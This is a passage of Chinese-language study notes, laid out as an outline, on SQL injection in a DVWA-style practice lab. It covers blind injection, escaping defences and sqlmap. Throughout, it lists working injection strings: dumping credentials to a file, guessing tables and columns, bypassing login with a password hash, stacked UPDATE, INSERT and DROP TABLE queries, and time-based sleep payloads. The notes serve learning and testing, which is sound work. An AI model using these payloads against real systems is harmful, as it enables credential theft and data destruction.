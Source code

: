             - 保存下载数据库
                - 'union select null,concat(user,0x3a,password) from users INTO OUTFILE '/tmp/a.db'-- 
            - 无权读取information_schema库 / 拒绝union、order by语句
                - 猜列名: ' and column is null--+
                    - Burpsuite自动猜列名
                - 猜当前表表名:' and table.user in null--+ 
                - 猜库里其他表:' and (select count(*) from table)>0--+
                - 列表对应关系:' and users.user is null--+
                - 猜字段内容:' or user='admin' or user like ' %a%
                - 猜账号对应密码:
                    - ' or user='admin' and password='5f4dcc3b5aa765d61d8324deb882cf99
            - 当数据库可写
                - '; update users set user='yuanfh' where user='admin
                    - 注入失败,sql客户端工具的问题
                - '; INSERT INTO users('user_id','first_name','last_name','user','password','avatar') values ('35','fh','yuan','yfh','5f4dcc3b5aa765d61d8324deb882cf99')
                - '; DROP TABLE users;
                - xp_cmdshell /储存过程
            - SQLi没有通用的方法,掌握原理,了解各种数据库特征
            - Medium难度级别
                - mysql_real_escape_string()
                    - PHP4 >= 4.3.0,PHP5
                - PHP 5.5.0已弃用此函数
                - PHP 7.0.0已经删除此函数，代之以MySQLI、PDO_MySQL
                - 转义符，对下列字符转义
                    - \x00
                    - \n
                    - \r
                    - \
                    - '
                    - "
                    - \x1a
            - high难度级别
                - mysql_real_escape_string()
                - stripslashes()
                    - 去除"\"
                - is_numeric()
                    - 判断是否是数字
        - SQL盲注
            - 不显示数据库内建的报错信息
                - 内建的报错信息帮助开发人员发现和修复问题
                - 报错信息提供关于系统的大量有用信息
            - 当程序员隐藏了数据库内建报错信息,替换为通用的错误提示,sql注入将无法依据报错信息判断注入语句的执行结果，即盲注。
            - 思路:既然无法基于报错信息判断结果,基于逻辑真假的不同结果来判断
                - 1' and 1=1--+
                - 1' and 1=2--+
                - 1' and ORD(MID((VERSION()),2,1))&32>0--+
                - CURRENT_USER()、DATABASE()
                - MID(ColumnName,Start [,length])
                - ORD(a) #ASCll码 97
        - SQLMAP自动注入
            - 开源sql注入漏洞检测、利用工具
            - 检测动态页面中get/post参数、cookie、http头
            - 数据榨取
            - 文件系统访问
            - 操作系统命令执行
            - 引擎强大、特性丰富
            - Xss漏洞检测
            - 五种漏洞检测技术
                - 基于布尔的盲注检测
                - 基于时间的盲注检测
                    - ' and (select * from (select(sleep(20)))a)--+
                - 基于错误的检测
                - 基于UNION联合查询的检测